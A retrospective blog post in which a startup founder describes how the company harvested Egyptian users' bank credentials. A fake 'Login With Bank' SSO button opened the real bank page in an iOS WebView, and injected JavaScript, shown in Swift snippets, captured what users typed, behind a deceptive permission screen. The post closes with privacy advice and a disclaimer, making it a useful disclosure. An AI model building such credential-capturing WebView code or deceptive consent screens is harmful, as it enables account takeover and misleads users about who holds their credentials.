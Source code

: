 ```yaml
---
layout: post
title:  "iOS Privacy: How we tricked our users into trusting us with their bank accounts"
date:   2022-09-06 00:00:00 +0000
categories: ios privacy
published: true
---
```


Back in 2019, we founded a startup (Dayra) to be the Cash App of Egypt. Allowing users to connect their bank accounts, transfer money and see an overview of their spending.

The concept of [*Open Banking*][OpenBanking] has existed in many countries at the time for years. However, it didn’t exist in Egypt. We wanted to support official bank connectivity, but banks refused to cooperate with us for being a startup. So, the 3 of us decided to take the engineering route.

In this post, I’ll walk you through concepts, screenshots, and Swift code. The code might not be complete and might not be ready to use in your project. It’s just here for demo purposes.

There are around 5 major banks we wanted to support initially, so we created accounts with these banks, and reverse-engineered their mobile apps. At this step, we have their APIs, authentication mechanism, and encryption algorithms. We integrated their APIs in our bank, and now we need the users to trust us by giving us their username and password, and optionally, OTPs.Once our users are logged in with a fresh account, they’re presented with a bank connectivity option. The bank connection layer contains a list of all the banks we have reverse-engineered so far.

{:style="text-align:center;"}
![Connect Bank Popup](/assets/post220905/connect-bank-popup.png){: width="220" } 
![Banks List](/assets/post220905/banks-list.png){: width="220" } 
![App Fields](/assets/post220905/connect-bank-app-fields.png){: width="220" }

To truly incentivize users to connect their bank accounts, we had to work on making them trust us with their data. We decided to introduce 2 options to connect an account. Either with username/password or with a username/password (no, that’s not a typo). The latter option is where the privacy concern is, with a button that users would think it’s an [SSO (Single Sign-on)][SSO] option. But truly, banks don’t offer integrations.

## iOS WebView

Clicking *Login With Bank* button, would present an in-app browser, with the actual login page of the bank loaded, and 2 input fields of username and password are in the DOM. All you need to do is execute JavaScript code to get those elements (username and password fields) and attach an on-change listener to them (or read their values when the button’s `onclick` is fired).

Our in-app browser configration looked like this

{% highlight swift %}
private lazy var webView: WKWebView = {
    let webView = WKWebView(frame: .zero, configuration: webViewConfiguration)
    if let url = URL.init(string: self.connectWebOptions.bankLoginURL) {
        webView.load(URLRequest.init(url: url))
    }
    for selector in self.connectWebOptions.loginSelectors {
        addEventListener(to: selector.value, message: selector.key, event: .keyup)
        addEventListener(to: selector.value, message: selector.key, event: .change)
    }
    addEventListener(to: authorizationButton, message: authorizationButton, event: .click)
    self.webViewConfiguration.userContentController.add(self, name: "iOSListener")
    self.webViewConfiguration.preferences.javaScriptEnabled = true
    webView.allowsBackForwardNavigationGestures = true
    
    webView.addObserver(self, forKeyPath: "URL", options: .new, context: nil)
    webView.addObserver(self, forKeyPath: "estimatedProgress", options: .new, context: nil)
    return webView
}()
{% endhighlight %}

Listening to events and executing JavaScript code is simple! We have built an API endpoint in our server to support different JavaScript code for any bank we support and to remotely configure the code in case any changes happened in the future.

{% highlight swift %}
private func addEventListener(to element: String, message: String, event: EventListen) {
    let js = """
    document.querySelector("\(element)").addEventListener("\(event.rawValue)", function() {
    window.webkit.messageHandlers.iOSListener.postMessage("\(message)");
    });
    """
    let script = WKUserScript(source: js, injectionTime: .atDocumentEnd, forMainFrameOnly: false)
    self.webViewConfiguration.userContentController.addUserScript(script)
}
{% endhighlight %}

Once the button is clicked, we wait for the website to navigate to an account details page (the logged-in page), and we immediately execute another JavaScript command to modify the DOM and present our custom, manipulative approval/rejection UI (screenshot on the right).

{:style="text-align:center;"}
![Web Fields](/assets/post220905/connect-bank-web-fields.png){: width="220" } 
![Bank Approval](/assets/post220905/bank-approval.png){: width="220" }

The page contains required and optional permissions, but in fact, since we captured the username/password, this UI is just there to mimic what people are used to, Facebook’s SSO. As such, they trust the app. Even if a user rejected the request at this stage, we already have access to the account, and can get the user data in the background.

## Summary and Recommendations

When we released the app, we had a quite good attraction of technical and non-technical users. The majority of our users trusted us with their credentials by logging in to the browser.

My friend Joe, [tweeted][JoeTweet] that he was surprised banks support SSO. Another friend, Maged, [tweeted][MagedTweet] the same thing as well!

While we spent our time and effort on making sure our users' credentials are safe and secure and implement the best security standard, this still violates their privacy. These banks invest in their security, and yet we were able to make their users think they support SSO. There was no guarantee this could have never happened to us. Luckily, we were acquired before anything could happen.

**How can you avoid this in the future?**

-   If you’re not sure the in-app browser is [SFSafariViewController][SFSafariViewController], open the URL in an external browser. In our case, if users did this, we won’t be able to connect them unless banks truly supported SSO.
-   Felix Krause wrote a great [blog post][FelixBlogPost] about in-app browser privacy, I recommend you read it.
-   When you login with a service (SSO), try to only use native mobile apps to authorize requests. For example, Dayra should have redirected users to the bank’s mobile app, where users authenticate, and the bank automatically opens the Dayra app by deep linking.

Finally, if you have any questions or just wanna say hi, you can find me on [Twitter][MyTiwtterAccount] :)

*Note: I would like to thank Joe and Maged for permitting me to use their tweets in this post.*

--- 
&nbsp;
> **Disclaimer**  
> This post does not support the route we took back when we implemented our version of bank integration. And by no means it
> influences others to follow this route.

[OpenBanking]: https://en.wikipedia.org/wiki/Open_banking
[SSO]: https://en.wikipedia.org/wiki/Single_sign-on
[MyTiwtterAccount]: https://twitter.com/M_Ennabah
[JoeTweet]: https://twitter.com/jo_adam/status/1210871044627664896
[MagedTweet]: https://twitter.com/magedmorsy/status/1210870804755472384
[SFSafariViewController]: https://developer.apple.com/documentation/safariservices/sfsafariviewcontroller
[FelixBlogPost]: https://krausefx.com/blog/ios-privacy-instagram-and-facebook-can-track-anything-you-do-on-any-website-in-their-in-app-browser
